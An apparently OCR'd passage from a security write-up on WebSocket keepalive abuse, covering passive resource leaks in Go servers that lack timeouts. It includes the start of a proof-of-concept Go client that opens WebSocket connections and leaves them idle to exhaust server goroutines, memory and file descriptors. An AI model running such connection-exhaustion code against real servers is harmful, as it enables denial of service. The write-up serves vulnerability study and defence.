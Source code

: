 
Detecting "passive" abuse, where resources leak due to unresponsive clients and inadequate server timeouts, can be more challenging than detecting "active" abuse like Ping floods. Ping floods often cause immediate and obvious CPU spikes, while resource leaks might be a slower process, only becoming apparent under sustained load or after a prolonged period, potentially when system limits on file descriptors or memory are hit. A common misdiagnosis is to blame network intermediaries for dropped connections when the root cause is the server's failure to send WebSocket-level keepalives, leading the intermediary to correctly close what it perceives as an idle TCP session.

## **Proof of Concept (PoC)**

The following outlines conceptual Proofs of Concept (PoCs) to demonstrate WebSocket Keepalive Abuse. These PoCs generally require custom client implementations, as standard browser WebSocket APIs offer limited control over Ping/Pong frames or the suppression of automatic Pong responses.**11**

PoC 1: Resource Exhaustion via Multiple Idle Connections

This PoC targets servers that do not implement proper timeouts or server-initiated keepalives for idle connections (e.g., the vulnerable gorilla/websocket server in "Vulnerable Code Snippet - Scenario 1").

1. **Setup**:
    - Deploy the vulnerable Golang WebSocket server that lacks keepalive logic and read deadlines.
    - Ensure server resource monitoring is in place (e.g., track goroutine count via `runtime.NumGoroutine()`, memory via `runtime.ReadMemStats`, and open file descriptors via `lsof`).
2. **Client Script (e.g., in Go)**:
    
    ```Go
    
    package main
    
    import (
    	"log"
    	"net/url"
    	"sync"
    	"time"
    	"github.com/gorilla/websocket" // Or any other WebSocket client library
    )
    
    func connectAndIdle(serverURL string, wg *sync.WaitGroup) {
    	defer wg.Done()
    	u, err := url.Parse(serverURL)
    	if err!= nil {
    		log.Printf("Error parsing URL: %v", err)
    		return
    	}
    	c, _, err := websocket.DefaultDialer.Dial(u.String(), nil)
    	if err!= nil {
    		log.Printf("Dial error: %v", err)
    		return
    	}
    	//defer c.Close() // Deliberately not closing to simulate an abrupt disconnect or idle client
    
    	log.Printf("Connected to %s, now idling.", serverURL)
    	// Keep the connection open without sending or actively receiving data.
    	// The server, if vulnerable, will not detect this client as dead.
    	time.Sleep(10 * time.Minute) // Stay connected for a long time
    	log.Printf("Client for %s finished idling (or was disconnected).", serverURL)
        // In a real scenario, the client might just exit or lose network connectivity
        // without a graceful close. For this PoC, we might let the Sleep finish
        // or manually kill client processes to simulate ungraceful disconnects.
        // For a more aggressive PoC, remove the Sleep and just let the connection hang.
    }
    